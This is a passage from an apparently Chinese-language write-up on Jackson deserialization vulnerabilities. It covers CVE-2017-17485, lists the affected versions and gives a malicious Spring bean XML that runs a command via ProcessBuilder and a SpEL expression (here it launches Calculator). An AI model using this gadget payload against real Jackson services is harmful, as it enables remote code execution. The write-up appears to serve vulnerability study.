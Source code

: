 之后就是通过反射执行我们的命令

![image-20211120222222094](img/Jackson反序列化漏洞.assets/image-20211120222222094.png)

### ClassPathXmlApplicationContext利用链（CVE-2017-17485）

影响版本：

Jackson 2.7系列 < 2.7.9.2

Jackson 2.8系列 < 2.8.11

Jackson 2.9系列 < 2.9.4

恶意利用类：

该漏洞需要SPEL表达式配合，所以本地要起一个HTTP服务

```spreadsheet
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder">
        <constructor-arg value="/System/Applications/Calculator.app/Contents/MacOS/Calculator"/>
        <property name="whatever" value="#{ pb.start() }"/>
    </bean>
</beans>
```
